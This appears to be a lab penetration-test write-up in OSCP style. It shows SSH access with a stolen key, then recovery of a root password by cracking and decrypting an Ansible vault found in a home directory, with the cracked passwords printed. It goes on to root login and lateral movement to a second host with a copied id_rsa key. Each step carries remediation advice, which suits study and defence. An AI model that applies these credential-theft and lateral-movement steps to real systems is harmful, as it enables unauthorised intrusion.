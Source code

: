 # OSCP-Style Privilege Escalation via Ansible

## Target: 172.16.187.222 (dev02.cowmotors-int.com)

### 🔓 Initial Access – SSH Key-Based Access with Passphrase

**Vulnerability Explanation:**  
A private SSH key (`nlewis`) was used to authenticate to `dev@172.16.187.222`. The passphrase was known or cracked, enabling login.

**Vulnerability Fix:**  
SSH private keys should be strongly protected with passphrases and access control. Avoid hardcoded or reused credentials.

**Severity:** High

**Steps to Reproduce:**

```bash
ssh -i nlewis dev@172.16.187.222
```

**Result:**

```bash
The authenticity of host '172.16.187.222 (172.16.187.222)' can't be established.
ED25519 key fingerprint is SHA256:l+V4IQFXxryRpI4arApslEcqdSR2hd5xRVlX8bKiOa4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.16.187.222' (ED25519) to the list of known hosts.
Enter passphrase for key 'nlewis':
Welcome to Ubuntu 18.04.6 LTS...
dev@dev02:~$
```

---

### 🔍 Ansible Identification

**Steps to Reproduce:**

```bash
dev@dev02:/home$ ls
administrator  ansible  dev
```

```bash
dev@dev02:/etc/ansible$ cat hosts
[dev]
dev03.cowmotors-int.com
```

---

### 🔎 Attempted Ansible Enumeration (Blocked)

**Steps to Reproduce:**

```bash
dev@dev02:/etc/ansible$ ansible dev -a "whoami"
```

**Result:**

```json
UNREACHABLE! => {
  "changed": false,
  "msg": "Failed to connect to the host via ssh: Warning: Permanently added 'dev03.cowmotors-int.com,172.16.187.224' (ECDSA) to the list of known hosts.\r\ndev@dev03.cowmotors-int.com: Permission denied (publickey,password).",
  "unreachable": true
}
```

---

### 🧾 Discovery of Encrypted Vault in Home Directory

**Vulnerability Explanation:**  
An encrypted root password file `.root.enc` was found in the home directory.

**Steps to Reproduce:**

```bash
dev@dev02:~$ cat .root.enc
```

**Vault Contents:**

```text
root: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          36663665386339376634646236323266666331346663363532313631633635653166343466323261
          3038616530646164653431323730383061393363613738650a613031313864313763633163613762
          61373061623361333166616630653863613963363538313061383561353862616465363161346132
          3735313933393638350a383965303736366433613037303362636535396333323665306436626635
          6566
```

**Fix:**  
Sensitive vault files should not be stored unprotected. Limit access and audit file permissions.

**Severity:** High

---

### 🧼 Vault Cleanup for Cracking

Transfer Vault Contents to kali

**Steps to Reproduce:**

```bash
awk '/^\$ANSIBLE_VAULT/ {flag=1} flag && NF {gsub(/^[ \t]+/, ""); print}' test1.txt > clean_vault.txt
cat clean_vault.txt
```

**Result:**

```text
$ANSIBLE_VAULT;1.1;AES256
36663665386339376634646236323266666331346663363532313631633635653166343466323261
3038616530646164653431323730383061393363613738650a613031313864313763633163613762
61373061623361333166616630653863613963363538313061383561353862616465363161346132
3735313933393638350a383965303736366433613037303362636535396333323665306436626635
6566
```

---

### 🔓 Cracking Vault Password with Extracted Hash

**Steps to Reproduce:**

```bash
cat cred1.hash
```

**Hash Extracted:**

```text
$ansible$0*0*6f6e8c97f4db622ffc14fc652161c65e1f44f22a08ae0dade4127080a93ca78e*89e0766d3a0703bce59c326e0d6bf5ef*a0118d17cc1ca7ba70ab3a31faf0e8ca9c65810a85a58bade61a4a2751939685
```

**Password Cracked:**

```text
iydgTvmujl6f
```

**Vault Decryption:**

```bash
echo '$ANSIBLE_VAULT;1.1;AES256
36663665386339376634646236323266666331346663363532313631633635653166343466323261
3038616530646164653431323730383061393363613738650a613031313864313763633163613762
61373061623361333166616630653863613963363538313061383561353862616465363161346132
3735313933393638350a383965303736366433613037303362636535396333323665306436626635
6566' > pw.txt
cat pw.txt | ansible-vault decrypt
```

**Decryption Result:**

```bash
Vault password: iydgTvmujl6f
Decryption successful
f5wQgVqkrT6q
```

**Fix:**  
Use strong vault passwords and do not store hash files or credentials insecurely.

**Severity:** Critical

---

### ⚙️ Privilege Escalation – Root Access Using Decrypted Password

**Steps to Reproduce:**

```bash
ssh root@172.16.187.222
# Password: f5wQgVqkrT6q
```

**Result:**

```bash
Permission denied, please try again.
Permission denied, please try again.
Welcome to Ubuntu 18.04.6 LTS
root@dev02:~#
```

**Fix:**  
Avoid password reuse and enforce least-privilege practices.

**Severity:** Critical

---

### 📁 Accessing SSH Keys for Lateral Movement

**Steps to Reproduce:**

```bash
cd /home/ansible/.ssh
ls -la
ssh -i id_rsa dev@dev03.cowmotors-int.com
```

**Result:** Used `id_rsa` to SSH into `dev03.cowmotors-int.com (172.16.187.224)`

---

### 🛠️ Recommendations

- Harden SSH key access and enforce passphrase usage
    
- Secure and rotate Ansible vault passwords
    
- Avoid leaving sensitive artifacts (vaults, hashes) in user directories
    
- Disable password authentication for root or limit to known jumpboxes
    

---

### 📌 Conclusion

Initial access was achieved via SSH private key authentication. Discovery and decryption of an Ansible vaulted root password allowed for full root access. Root privileges were then used to extract additional SSH keys for lateral movement to `dev03`. The attack highlights poor credential handling and weak vault hygiene.